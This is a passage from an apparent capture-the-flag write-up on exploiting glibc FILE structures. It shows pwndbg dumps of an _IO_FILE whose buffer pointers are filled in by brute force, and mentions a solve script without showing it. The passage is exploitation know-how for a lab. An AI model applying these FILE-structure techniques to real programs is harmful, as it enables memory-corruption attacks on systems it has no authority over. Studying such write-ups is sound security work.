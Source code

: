 This script would have to be launched with `python3 solve.py GDB LOCAL DEBUG API` so that it works properly.

This gave us a structure like this:

```
pwndbg> fff
$2 = {
  file = {
    _flags = -72538968,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x0,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x5579be07c480 "",
    _IO_buf_end = 0x5579be07d47f "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7fa6d0dbd5c0 <_IO_2_1_stderr_>,
    _fileno = 3,
    _flags2 = 0,
    _old_offset = 0,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x5579be07c380,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7fa6d0db9488
}
```

Where we can see that we got the `_IO_buf_base` and `_IO_buf_end` allocated. 
We used the same brute force method to get more pointers allocated from this state.

This then gave us a structure like this:

```
pwndbg> fff
$4 = {
  file = {
    _flags = -72534616,
    _IO_read_ptr = 0x5579be07d50f "\200",
    _IO_read_end = 0x5579be07d590 "",
    _IO_read_base = 0x5579be07d490 "",
    _IO_write_base = 0x5579be07c470 "`\217\333Ц\177",
    _IO_write_ptr = 0x5579be07c4ff "",
    _IO_write_end = 0x5579be07c480 "",
    _IO_buf_base = 0x5579be07c480 "",
    _IO_buf_end = 0x5579be07d47f "",
    _IO_save_base = 0x5579be07c480 "",
    _IO_backup_base = 0x5579be07d510 "",
    _IO_save_end = 0x5579be07c480 "",
    _markers = 0x0,
    _chain = 0x7fa6d0dbd5c0 <_IO_2_1_stderr_>,
```